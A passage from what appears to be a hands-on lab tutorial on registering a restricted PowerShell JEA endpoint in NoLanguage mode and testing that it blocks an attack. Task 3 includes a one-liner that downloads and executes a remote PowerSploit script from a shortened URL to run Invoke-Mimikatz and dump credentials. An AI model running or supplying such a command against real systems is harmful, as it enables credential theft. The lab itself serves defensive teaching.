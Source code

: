 7.   Starting at line 30 of the role capabilities file, add the following entries:

```
LanguageMode = 'NoLanguage'
ExecutionPolicy = 'Restricted'
PowerShellVersion = '5.1.14393.206'
```

8.   Ensure that the last line contains the closing braces, save the changes and close the file.

  > **Note:**  Next, you need to register the JEA session configuration file, which will result in creation of a new Windows PowerShell Remoting endpoint.

9.   From the **Administrator: Windows PowerShell ISE** window, run the following:

```
$modulePath = Join-Path $env:ProgramFiles 'WindowsPowerShell\Modules\AdatumJEA'
$scFolder = Join-Path $modulePath 'RoleCapabilities'
Copy-Item –Path 'C:\Temp\AdatumAdminRestricted.pssc' –Destination $scFolder
$scFile = Join-Path $scFolder 'AdatumAdminRestricted.pssc'
Register-PSSessionConfiguration -Path $scFile -Name 'adatum.admin.restricted' -Force
```

10.   Verify that the `Register-PSSessionConfiguration` cmdlet completed successfully. The output should contain the name of the new endpoint (adatum.admin.restricted).



#### Task 3: Test JEA

  > **Note:**  Now you will attempt again the same exploit that employs the PowerSploit (PowerShell Post-Exploitation Framework) functionality to run the Invoke-Mimikatz cmdlet which was successfully carried out in a Windows PowerShell remoting session to the Windows Server 2016 computer. 

1.   Ensure that you are signed on to the LON-CL1 Windows 10 Professional lab virtual machine with the following credentials:

  -   USERNAME: **ADATUM\\Beth**
  -   PASSWORD: **Pa55w.rd**

2.   Start **Windows PowerShell** as administrator.
3.   From **Administrator: Windows PowerShell**, run the following:

```
Enter-PSSession –ComputerName 'LON-SVR1' `
                –ConfigurationName 'adatum.admin.restricted'
```

  > **Note:**  This will establish a Windows PowerShell Remoting session to LON-SVR1, as indicated by the `[LON-SVR1]:` prefix of the Windows PowerShell prompt.

4.   From **Administrator: Windows PowerShell**, run the following:

```
IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -DumpCreds
```

  > **Note:**  The exploit failed again, but this time, as the error message indicates, the command execution failed since it was executed in the runspace that does not support the NoLanguage mode. Obviously in order for this protection method to provide expected resiliency, you would need to also remove the default Windows PowerShell Remoting endpoint. While this is easy to accomplish by running the Disable-PSSessionConfiguration cmdlet on the target computer, such step has obvious implications in regard to remote administration, so remediating its impact should be carefully evaluated. 
